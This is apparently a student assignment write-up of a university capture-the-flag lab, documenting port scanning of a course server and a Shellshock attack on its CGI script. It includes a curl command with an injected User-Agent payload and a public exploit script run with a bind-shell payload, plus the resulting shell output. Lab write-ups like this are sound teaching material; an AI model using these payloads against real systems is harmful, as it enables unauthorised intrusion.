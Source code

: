 ```yaml
---
title: Assignment 6
author:
  - Hendrik Werner s4549775
  - Aniek Den Teuling s1010747
date: \today
fontsize: 12pt
geometry: margin=5em
header-includes:
  - \usepackage{listings}
---
```


# Capture the Flag

To establish the servers IP address from the hostname we used `getent`:

```
$ getent hosts ossec-host.cs.ru.nl
131.174.142.7   ossec-host.cs.ru.nl
```

The first thing we tried, was connecting to the server via telnet, but the connection was refused:

```bash
$ telnet ossec-host.cs.ru.nl
Trying 131.174.142.7...
telnet: Unable to connect to remote host: Connection refused
```

Next we tried connecting via SSH, and there is indeed an SSH server running on the host, but connecting requires a password that we do not know:

```
$ ssh root@ossec-host.cs.ru.nl
root@ossec-host.cs.ru.nl's password:
Permission denied, please try again.
```

We can use `nmap` to scan for open ports on the host server:

```
nmap 131.174.142.7

Starting Nmap 7.60 ( https://nmap.org ) at 2018-01-10 19:00 CET
Nmap scan report for ossec-host.cs.ru.nl (131.174.142.7)
Host is up (0.073s latency).
Not shown: 937 filtered ports, 61 closed ports
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http

Nmap done: 1 IP address (1 host up) scanned in 84.46 seconds
```

The only two open ports are port 22 for ssh, and port 80 for http.

We tried to exploit the Shellshock vulnerability over HTTP, but for some reason it did not work. We asked the student assistants about this, but they could not identify the problem either. The command we used was

\begin{lstlisting}[breaklines=true]
curl -H "User-Agent: () { :;}; /bin/ls" 'http://ossec-host.cs.ru.nl/cgi-bin/fortunecow.sh'`
\end{lstlisting}

The student assistants recommended downloading a ready made exploit script, so we found one on <exploit.db.com/exploits/34900/>, and successfully used it to get a shell on the remote host.

\begin{lstlisting}[breaklines=true]
$ python2 34900.py rhost=ossec-host.cs.ru.nl rport=12345 payload=bind pages=/cgi-bin/fortunecow.sh
[-] Trying exploit on : /cgi-bin/fortunecow.sh
[!] Successfully exploited
[!] Connected to ossec-host.cs.ru.nl
ossec-host.cs.ru.nl> uname -a
Linux ossec-host 3.13.0-24-generic #46-Ubuntu SMP Thu Apr 10 19:11:08 UTC 2014 x86_64 x86_64 x86_64 GNU/Linux
ossec-host.cs.ru.nl> whoami
www-data
ossec-host.cs.ru.nl> id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
\end{lstlisting}

As you can see the server uses Ubuntu with Linux kernel version 3.13.0, and we do not have root privileges, and are logged in as user `www-data`.
